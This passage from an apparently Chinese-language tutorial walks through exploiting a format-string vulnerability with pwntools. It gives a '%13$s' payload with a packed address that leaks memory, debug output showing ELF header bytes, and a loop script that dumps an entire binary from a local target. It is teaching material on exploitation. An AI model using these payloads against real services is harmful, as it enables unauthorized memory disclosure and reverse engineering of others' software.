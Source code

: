 发生了EOFError, 这是因为

```
>>> p32(0x8048000)
'\x00\x80\x04\x08'
```

`printf` 根据 `\x00` 判断结尾

所以我们需要更改下payload

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'  
p = remote("127.0.0.1",10001)  
p.send("%13$saaa" + p32(0x8048000))  
print p.recv()
```

可以成功dump数据了:

```
$ python fmt_test.py
[+] Starting local process './a.out' argv=['a.out'] : Done
[DEBUG] Sent 0xc bytes:
    00000000  25 31 33 24  73 61 61 61  00 80 04 08               │%13$│saaa│····││
    0000000c
[DEBUG] Received 0xa bytes:
    00000000  7f 45 4c 46  01 01 01 61  61 61                     │·ELF│···a│aa│
    0000000a
```

原理都懂了，可以写payload去dump 整个bin回来了

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'  
f = open("source.bin", "ab+")

begin = 0x8048000  
offset = 0

while True:  
    addr = begin + offset
    p = process("a.out")
    p.sendline("%13$saaa" + p32(addr))
    try:
        info = p.recvuntil("aaa")[:-3]
    except EOFError:
        print offset
        break
    info += "\x00"
    p.close()
    offset += len(info)
    f.write(info)
    f.flush()

f.close()
```
